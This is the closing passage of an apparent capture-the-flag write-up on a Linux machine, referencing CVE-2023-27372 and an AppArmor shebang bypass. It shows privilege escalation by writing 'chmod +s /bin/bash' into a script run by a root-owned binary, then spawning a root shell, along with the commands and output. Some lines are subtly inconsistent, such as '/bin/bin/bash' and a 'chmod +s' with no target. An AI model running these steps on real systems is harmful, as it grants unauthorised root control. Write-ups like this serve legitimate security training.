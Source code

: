 I'll write the following to the shell file that adds suid bit to /bin/bash

```terminal
echo 'chmod +s /bin/bin/bash' > /opt/run_container.sh
```

Now we run the binary.

```terminal
$ /usr/sbin/run_container
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
$ /bin/bash -p
bash-5.0# whoami
root
```

And we got root!

#### My way

When I found out I can't write files to the target, I went back the www-data shell, I copied `/bin/bash` to `/home/think/spip` which was owned by `www-data` and gave it the suid bit. We also need to make it readable by everyone using `chmod 777 .`

```bash
cd ..
pwd
/home/think/spip
cp /bin/bash .
chmod +s 
chmod 777 .
```

I went back to my ssh and runned `/home/think/spip/bash -p` which gave me a shell as `www-data`.

I found that the binary is running `/opt/run_container.sh` so I wrote the same bash command `chmod +s /bin/bash` to the file and ran the binary

![root](6.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

<https://nvd.nist.gov/vuln/detail/CVE-2023-27372>

<https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass>

